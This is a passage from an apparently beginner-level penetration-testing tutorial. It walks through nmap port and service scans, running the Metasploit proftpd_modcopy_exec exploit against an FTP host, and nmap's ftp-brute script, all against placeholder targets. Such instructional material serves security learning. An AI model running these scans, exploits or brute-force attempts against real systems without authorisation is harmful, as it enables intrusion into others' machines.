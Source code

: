 4. **Scanning for Top Ports**:  
   To scan the top 1000 most common ports:
	```bash
	   nmap -iL target.txt --top-ports 1000
	```

5. **Deep Scanning**:  
   If you identify an interesting target like an FTP server, scan all ports with:
	```bash
	   nmap <target> -p 1-65535
	```
   To gather more details on the FTP server:
	```bash
	   nmap <target> -p 21 -A
	```
   Look for the FTP version in the output, then search for known exploits on exploit-db.com or use Metasploit.

6. **Using Metasploit**:  
   Start Metasploit:
	```bash
	   msfconsole
	```
   Search for available exploits:
	```bash
	   search proftpd
	```
   If you are lucky, you will find exploits for this FTP version (which you identified earlier using exploit-db.com).  
   Use the `use` command with the exploit path, for example:
	```bash
	   use exploit/unix/ftp/proftpd_modcopy_exec
	```
   Run `show options` to see which options need to be set for the exploit.

   The **Required** column shows the options that must be set, while the **Current** column displays the current values that will be used if you don’t change them.

   Next, set the remote host:
	```bash
	   set RHOST <target>
	```
   Then run the exploit:
	```bash
	   exploit
	```

   In this case, the exploit didn’t succeed because it required port 80 to be open, which wasn’t the case here. However, now you know the process for running exploits!

7. **Brute Forcing with Nmap**:  
   You can use Nmap’s FTP brute-force script:
	```bash
	   nmap <target> -p 21 --script=ftp-brute.nse
	```
